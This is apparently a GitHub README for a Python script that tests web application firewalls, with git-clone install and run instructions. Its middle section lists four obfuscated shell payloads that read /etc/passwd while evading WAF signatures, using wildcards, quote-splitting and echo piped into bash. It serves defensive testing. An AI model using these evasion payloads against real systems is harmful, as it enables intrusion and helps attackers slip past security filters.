 # WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Turn off ban mode before use.

## Do not break the law when using!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://camo.githubusercontent.com/acd8bc382d0a8c7488a426d8f9817cf9b3de7c1a/68747470733a2f2f696d672e646566636f6e2e72752f73746f72652f323032302f30372f30303134633466633437623066616538636462386637393634383630366435382e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
